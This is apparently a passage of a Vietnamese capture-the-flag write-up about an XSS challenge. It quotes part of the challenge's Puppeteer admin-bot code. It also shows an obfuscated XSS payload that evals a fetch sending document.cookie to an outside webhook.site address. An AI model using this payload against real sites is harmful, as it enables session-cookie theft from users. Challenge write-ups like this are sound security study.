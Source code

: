 Sau khi chạy thì ta có một payload như sau

![image](https://hackmd.io/_uploads/ryDOrLXokg.png)

Nhìn dài vậy nhưng nó chỉ là một lệnh fetch thôi

![image](https://hackmd.io/_uploads/SyFtBLQikg.png)

Ok cuối cùng chúng ta có payload sau để thực hiện XSS và mình đã thành công catch được webhook

```html
<input type=hidden oncontentvisibilityautostatechange="eval(`fabceabctabccabchabc(abc'abchabctabctabcpabcsabc:abc/abc/abcwabceabcbabchabcoabcoabckabc.abcsabciabctabceabc/abc4abceabc8abcbabcaabc4abcaabc0abc-abccabceabc6abc1abc-abc4abc1abccabcaabc-abcbabc1abc6abcfabc-abc8abc0abc2abc8abc0abc4abcfabc6abcfabc5abcaabc2abc/abc?abc'abc%2babcdabcoabccabcuabcmabceabcnabctabc.abccabcoabcoabckabciabceabc)abc`.replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc',''))" style=content-visibility:auto>
```


![image](https://hackmd.io/_uploads/Hy2ID8mi1e.png)

Ok thì mình tiến hành gửi report nhưng không có cookie nào được gửi về cả

![image](https://hackmd.io/_uploads/Hyc5wLQiJl.png)


![image](https://hackmd.io/_uploads/BybqwLQiJl.png)

Có mọt điểm đáng chú ý mà mình đã dành 2 tiếng để debug ra chính là bot sẽ vào rồi mới set cookie. Theo race condition thì mình sẽ lấy cookie khi nó chưa set nên nó trống. 


```js
async function startBot(url, name) {
    const logFilePath = path.join(logPath, `${name}.log`);

    try {
        const logStream = fs.createWriteStream(logFilePath, { flags: 'a' });
        logStream.write(`${new Date()} : Attempting to open website ${url}\n`);

        const browser = await puppeteer.launch({
            headless: 'new',
            args: ['--remote-allow-origins=*','--no-sandbox', '--disable-dev-shm-usage', `--user-data-dir=${browserCachePath}`]
        });

        const page = await browser.newPage();
        await page.goto(url);

        if (url.startsWith("http://localhost/")) {
            console.log("OKKKKK")
            await page.setCookie(cookie);
```